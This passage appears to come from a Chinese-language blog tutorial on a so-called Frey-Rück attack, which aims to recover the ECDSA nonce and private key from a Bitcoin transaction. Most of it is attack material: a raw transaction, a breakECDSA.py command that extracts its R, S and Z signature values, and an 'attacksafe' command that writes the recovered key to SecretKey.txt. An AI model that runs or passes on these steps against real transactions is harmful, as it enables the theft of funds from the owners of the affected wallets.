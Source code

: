 
<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-17-1024x91.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-790"/></figure>



<pre class="wp-block-code"><code>RawTX = 010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>



<h2>現在我們需要從所有易受攻擊的交易中獲取所有的 R、S、Z 值</h2>



<p>讓我們使用 breakECDSA.py 腳本</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-54-1024x261.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-994"/></figure>



<pre class="wp-block-code"><code>R = 0x3458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d
S = 0x445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d0913
Z = 0x8b65d49dde9949e5ea18ae637d7f4f48c7c3b38957892a94a3bab994fec4eee7</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>
